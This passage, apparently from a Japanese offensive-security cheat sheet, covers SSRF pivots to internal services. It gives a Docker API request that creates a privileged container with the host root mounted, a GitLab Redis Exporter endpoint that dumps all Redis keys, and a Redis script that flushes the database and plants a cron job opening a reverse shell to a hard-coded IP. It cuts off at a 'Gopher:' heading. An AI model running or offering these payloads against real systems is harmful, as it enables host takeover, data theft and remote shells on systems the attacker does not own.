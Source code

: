 この攻撃手法では、SSRFの脆弱性を利用して、任意のDockerイメージを実行することで、リモートコード実行（RCE）を達成します。

攻撃者は、SSRF脆弱性を持つターゲットアプリケーションに対して、特定のリクエストを送信します。このリクエストには、攻撃者が制御するDockerイメージのURLが含まれています。

ターゲットアプリケーションは、このURLを使用してDockerイメージをダウンロードし、実行します。攻撃者は、悪意のあるコードを含むDockerイメージを作成し、それを実行することで、ターゲットシステムに対して任意のコードを実行することができます。

この攻撃手法は、Dockerイメージの実行に関する適切な制限がない場合に成功します。したがって、セキュリティ上のベストプラクティスとして、ターゲットシステムでDockerイメージの実行を制限することが重要です。
```http
POST /containers/create?name=test HTTP/1.1
Host: website.com
Content-Type: application/json
...

{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}
```
alpineを、Dockerコンテナで実行したい任意のイメージに置き換えてください。

# Gitlab Prometheus Redis Exporter

**一般的にバインドされるポート: 9121**

この脆弱性は、Gitlabのバージョン13.1.1より前のインスタンスに影響を与えます。[Gitlabのドキュメント](https://docs.gitlab.com/ee/administration/monitoring/prometheus/#configuring-prometheus)によると、「Prometheusとそのエクスポーターは、GitLab 9.0以降、デフォルトで有効になっています。」

これらのエクスポーターは、攻撃者がCVE-2020-13379を使用して他のサービスに対して攻撃を行うための優れた手段を提供します。容易に悪用できるエクスポーターの1つはRedis Exporterです。

以下のエンドポイントは、targetパラメーターを介して提供されるRedisサーバーのすべてのキーをダンプすることを攻撃者に許可します：
```bash
http://localhost:9121/scrape?target=redis://127.0.0.1:7001&check-keys=*
```
***

**Gopherを介して可能**

# Redis

**一般的にバインドされるポート: 6379**

おすすめの読み物:

* [HTTPリクエストを介したRedisのハックの試み](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html)
* [Redisに対するSSRF攻撃](https://maxchadwick.xyz/blog/ssrf-exploits-against-redis)

**Cronを介したRCE** - [Gopher攻撃の対象](https://blog.chaitin.cn/gopher-attack-surfaces/)
```bash
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
```
Gopher:
